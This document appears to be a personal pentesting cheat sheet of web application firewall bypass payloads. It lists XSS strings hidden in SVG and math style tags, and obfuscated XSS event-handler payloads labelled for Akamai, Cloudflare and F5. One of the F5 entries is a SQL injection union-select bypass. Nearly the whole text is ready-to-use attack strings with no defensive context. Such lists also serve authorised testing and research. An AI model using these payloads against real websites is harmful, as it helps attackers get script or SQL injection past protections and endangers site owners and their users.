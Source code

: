 # General

Hide [[XSS]] payload in style tag of an SVG or math element for WAF or sanitizer bypass:

```
<svg><style> <script>alert(1)</script> </style></svg> <math><style> <img src onerror=alert(2)> </style></math>
```
# Akamai

[[XSS]] bypass 1:

```
1'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>
```
# Cloudflare

[[XSS]]bypass 1:

```
"><body/onload="{x:onerror=alert};x
```

[[XSS]] bypass 2:

```
<inpuT autofocus oNFocus="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
```

# F5

[[XSS]]bypass 1:

```
+{`nothing`/*str*/(')}div%0B1+'
+{`nothing`/*str*/(')}div%0B0+'
```

[[XSS]]bypass 2:

```
{`noth`/*ing*/821}+union+%23%0a+distinctrow%0b/**/select+1,2,3--{`nothing`/**/TRUE}
```